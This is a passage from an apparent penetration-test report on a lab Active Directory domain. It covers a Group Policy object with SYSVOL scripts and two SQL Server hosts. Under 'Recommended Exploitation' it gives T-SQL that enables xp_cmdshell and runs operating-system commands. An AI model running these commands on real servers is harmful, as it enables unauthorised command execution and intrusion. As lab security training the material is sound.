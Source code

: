 ### 5.3 Group Policy Security

**Discovered GPO:**
```
Container: {EE353C6E-B5DD-4C0A-B3BB-9A58D54B703D}
Name: StarkWallpaper
Location: SYSVOL\north.sevenkingdoms.local\Policies\
Scripts: script.ps1 (165 bytes), secret.ps1 (869 bytes)
```

**GPO Security Risks:**
- Credential exposure in SYSVOL scripts
- Logon/startup script injection possibilities
- Group Policy hijacking for persistence

---

## 6. SQL Server Security Assessment

### 6.1 Database Configuration Analysis

**SQL Server Instances:**
```
CASTELBLACK (192.168.20.22:1433):
├── Version: Microsoft SQL Server 2019 RTM (15.00.2000.00)
├── Service Account: sql_svc (Domain Account)
├── Certificate: SSL_Self_Signed_Fallback
├── Network Access: Unrestricted (Port 1433 exposed)
└── Authentication: Windows Authentication + SQL Server

BRAAVOS (192.168.20.23:1433):
├── Version: Microsoft SQL Server 2019 RTM (15.00.2000.00)  
├── Service Account: Unknown (likely sql_svc)
├── Certificate: SSL_Self_Signed_Fallback
├── Network Access: Unrestricted (Port 1433 exposed)
└── Authentication: Windows Authentication + SQL Server
```

### 6.2 SQL Server Attack Vectors

**High-Priority Targets:**
1. **xp_cmdshell** - Command execution if enabled
2. **SQL Service Account** - Domain credentials via Kerberoasting
3. **Linked Servers** - Potential trust relationships
4. **SQL Agent Jobs** - Persistence mechanism

**Recommended Exploitation:**
```sql
-- Test for xp_cmdshell
EXEC xp_cmdshell 'whoami';

-- Enable xp_cmdshell if disabled  
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

-- SQL Server version and permissions
SELECT @@VERSION;
SELECT IS_SRVROLEMEMBER('sysadmin');
```

---